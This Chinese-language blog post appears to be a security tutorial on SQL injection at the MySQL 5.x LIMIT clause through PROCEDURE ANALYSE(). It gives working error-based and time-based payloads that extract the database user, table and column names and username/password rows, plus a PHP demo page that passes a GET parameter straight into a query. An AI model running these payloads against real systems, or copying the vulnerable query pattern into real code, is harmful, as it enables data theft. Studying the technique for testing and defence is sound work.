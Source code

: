 ```yaml
---
layout: post
title: Mysql in Limit Sql Injection
---
```


{{ page.title }}
================
<p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>
<center>
<img src="http://ww1.sinaimg.cn/mw690/9c5c5d93tw1erpyb5brduj20go08hgmc.jpg">
</center>

>sql注入在组合拼接方面一直都很灵活,因为语法本身就很灵活,不过Mysql的Limit下一直没办法注入,国外大牛发表了个[SQL Injections in MySQL LIMIT clause](https://rateip.com/blog/sql-injections-in-mysql-limit-clause/)的paper,意在利用Mysql的一个优化建议函数ANALYSE()进行Limit处注入,`此方法适用于Mysql5.x`.

	SELECT freld FROM table WHERE id>0 ORDER BY id LIMIT injection_point
	
**像这样的语句,由于后面跟着`ORDER BY`,所以无法UNION联合查询注入,那么就需要在LIMIT上找出路了**

Mysql5的`SELETCT`语法:

	SELECT 
    [ALL | DISTINCT | DISTINCTROW ] 
      [HIGH_PRIORITY] 
      [STRAIGHT_JOIN] 
      [SQL_SMALL_RESULT] [SQL_BIG_RESULT] [SQL_BUFFER_RESULT] 
      [SQL_CACHE | SQL_NO_CACHE] [SQL_CALC_FOUND_ROWS] 
    select_expr [, select_expr ...] 
    [FROM table_references 
    [WHERE where_condition] 
    [GROUP BY {col_name | expr | position} 
      [ASC | DESC], ... [WITH ROLLUP]] 
    [HAVING where_condition] 
    [ORDER BY {col_name | expr | position} 
      [ASC | DESC], ...] 
    [LIMIT {[offset,] row_count | row_count OFFSET offset}] 
    [PROCEDURE procedure_name(argument_list)] 
    [INTO OUTFILE 'file_name' export_options 
      | INTO DUMPFILE 'file_name' 
      | INTO var_name [, var_name]] 
    [FOR UPDATE | LOCK IN SHARE MODE]]
    
**LIMIT后面跟了两个函数,PROCEDURE和INTO,INTO除非有写入shell的权限，否则是无法利用的,那就看看PROCEDURE函数下能否注入.**

>一个测试表:

<img src="http://7xiw31.com1.z0.glb.clouddn.com/34324b9a.png">

**ANALYSE函数是可以查看表的优化建议**

	PROCEDURE ANALYSE([max_elements,[max_memory]])
	
ANALYSE函数后面可以有两个参数:

	select * from injection where id>0 order by id limit 0,1 procedure analyse(1,1);

<img src="http://ww4.sinaimg.cn/mw690/9c5c5d93tw1erqfqij043j20vo02qdhl.jpg">

看起来并不是很好，尝试下在`max_elements`处添加条件表达式:


	SELECT * from injection where id > 0 order by id LIMIT 1,1 procedure analyse((select IF(MID(version(),1,1) LIKE 5, sleep(5),1)),1);

但是立即返回了一个错误信息:

<img src="http://ww1.sinaimg.cn/mw690/9c5c5d93tw1erqfqhkijbj20vk02u40x.jpg">

>sleep函数没执行,不过还是有办法的,利用updatexml or extractvalue函数进行报错注入:

**爆用户名:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,user()),0),1);
	
<img src="http://7xiw31.com1.z0.glb.clouddn.com/213h8sad.png">

**爆表:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,(select concat(table_name) from information_schema.tables where table_schema=database() limit 0,1)),0),1);

<img src="http://7xiw31.com1.z0.glb.clouddn.com/XA78as89.png">

**爆字段:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,(select concat(column_name) from information_schema.columns where table_name='injection' limit 0,1)),0),1);
	
<img src="http://7xiw31.com1.z0.glb.clouddn.com/32BSF8.png">

**爆数据:**

	select * from injection where id>0 order by id limit 0,1 procedure analyse(updatexml(0,concat(0x7e,(select concat_ws(':',id,username,password) from injection limit 0,1)),0),1);

<img src="http://7xiw31.com1.z0.glb.clouddn.com/sad782eq.png">

**如果不支持报错注入的话,还可以基于时间注入:**

	SELECT * FROM injection WHERE id > 0 ORDER BY id LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1);

<img src="http://7xiw31.com1.z0.glb.clouddn.com/3ewg87sdfb.png">

>一个Demo:

 	<?php
	/**
	 * Created by PhpStorm.
	 * User: Tr3jer
	 * Date: 15/1/24
	 * Time: 下午9:55
	 */
	include "Class_Mysql_Db_Model.php";
	
	$cof=new Config();
	$obj=new Mysql_Db_Model();
	$obj->connect($cof);
	
	$sql="select * from injection where id>0 order by id limit 0,{$_GET['id']}";
	
	if($obj->query($sql)){
		var_dump($row);
	}else{
		die(mysql_error());
	}
	
	mysql_close($obj);

<img src="http://7xiw31.com1.z0.glb.clouddn.com/3neiuwyfd.png">

>执行的语句:

<img src="http://7xiw31.com1.z0.glb.clouddn.com/2nuefdys8.png">

>Mysql内建的特性有很多,不过能够利用的缺陷还有待挖掘:)